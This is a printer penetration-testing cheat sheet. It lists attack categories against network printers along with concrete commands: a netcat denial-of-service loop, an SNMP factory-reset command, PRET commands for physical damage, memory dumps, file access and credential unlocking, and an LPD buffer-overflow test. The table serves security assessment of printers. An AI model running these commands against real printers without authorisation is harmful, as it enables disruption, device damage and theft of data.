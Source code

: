 Printer Security Testing Cheat Sheet

To systematically check for vulnerabilities in a printing device, first perform a generic network assessment and check for printer-specifc web based information leaks using Praeda. Then, use the following cheat sheet to quickly find flaws in printer languages and network protocols.
Category | Attack | Protocol | Testing
--- | --- | --- | ---
Denial of service 	Transmission channel 	TCP 	while true; do nc printer 9100; done
Document processing 	PS 	PRET commands: disable, hang
PJL 	PRET commands: disable, offline
Physical damage 	PS 	PRET command: destroy
PJL 	PRET command: destroy
Privilege escalation 	Factory defaults 	SNMP 	snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
PML 	PRET command: reset
PS 	PRET command: reset
Accounting bypass 	TCP 	Connect to printer directly, bypassing the print server
IPP 	Check if you can set a username without authentication
PS 	Check if PostScript code is preprocessed on print server
PJL 	PRET command: pagecount
Fax and Scanner 	multiple 	Install printer driver and (ab)use fax/scan functionality
Print job access 	Print job retention 	PS 	PRET command: capture
Print job manipulation 	PS 	PRET commands: cross, overlay, replace
Information disclosure 	Memory access 	PJL 	PRET command: nvram dump
File system access 	PS 	PRET commands: fuzz, ls, get, put, …
PJL 	PRET commands: fuzz, ls, get, put, …
Credential disclosure 	PS 	PRET commands: lock, unlock
PJL 	PRET commands: lock, unlock
Code execution 	Buffer overflows 	PJL 	PRET command: flood
LPD 	./lpdtest.py printer in "`python -c 'print "x"*3000'`"
Firmware updates 	PJL 	Flip a bit, check if the modified firmware is still accepted
Software packages 	multiple 	Obtain an SDK and write your own proof-of-concept application 
